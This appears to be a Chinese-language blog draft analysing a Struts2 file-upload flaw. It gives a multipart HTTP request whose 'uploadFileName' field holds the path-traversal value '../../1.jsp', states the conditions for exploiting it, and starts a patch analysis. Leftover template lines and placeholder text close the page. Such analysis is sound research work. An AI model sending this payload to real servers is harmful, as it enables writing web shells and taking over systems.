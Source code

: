 ```http
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------21972861871679732823856174094
Content-Disposition: form-data; name="Upload"; filename="11111.txt"
Content-Type: text/plain

1111
-----------------------------21972861871679732823856174094
Content-Disposition: form-data;  name="uploadFileName"

../../1.jsp
-----------------------------21972861871679732823856174094
Content-Disposition: form-data; name="caption"

3333
-----------------------------21972861871679732823856174094--

```

**利用条件：**

1. 首先要知道 文件上传代码中的文件名字段名， 这里上传名是 `upload` （由jsp中定义），文件名字段按照习惯可能会是`UploadFileName` （upload + FileName） ，如果不是则无法覆盖

   > Content-Disposition: form-data; name="Upload"; filename="11111.txt"
   >
   > Content-Disposition: form-data;  name="uploadFileName"

2. 这个洞的利用点就在通过自己传的文件名覆盖掉Strust2自动赋值的文件名，所以如果原来程序逻辑本来就是获取文件名，根据后缀判断，那这个洞就没法利用了

   > 这么看，其实没有想象的那么严重？



# 漏洞分析

这个补丁这么找来的

https://github.com/apache/struts/commit/162e29fee9136f4bfd9b2376da2cbf590f9ea163



`org.apache.struts2.interceptor.FileUploadInterceptor#intercept` 这里主要提取用户的数据包中的文件、文件名、文件类型字段，

111

{{ $image := .Resources.Get "image-20231216113402887.png" }}

222

{{ $image := .Resources.Get "Struts2-Upload-RCE.assets/image-20231216113402887.png" }}

333
